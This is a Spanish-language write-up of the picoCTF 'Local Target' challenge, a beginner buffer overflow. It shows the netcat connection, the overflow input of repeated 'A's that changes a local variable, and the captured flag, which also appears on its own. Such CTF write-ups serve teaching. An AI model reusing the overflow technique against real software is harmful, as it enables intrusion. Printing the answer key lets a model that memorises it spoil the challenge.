 # Local Target

## Descripcion
Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using:`nc saturn.picoctf.net 53332`
## Pistas
- Do anything you can to change `num`.
- When you change `num`, view the value as hexadecimal.
## Solucion
```
Descargamos el archivo y analizamos el codigo ensamblador con gdb y el comando layout asm:
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 53332
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}

```

## Bandera

picoCTF{l0c4l5_1n_5c0p3_fee8ef05}

## Notas adicionales

## Referencias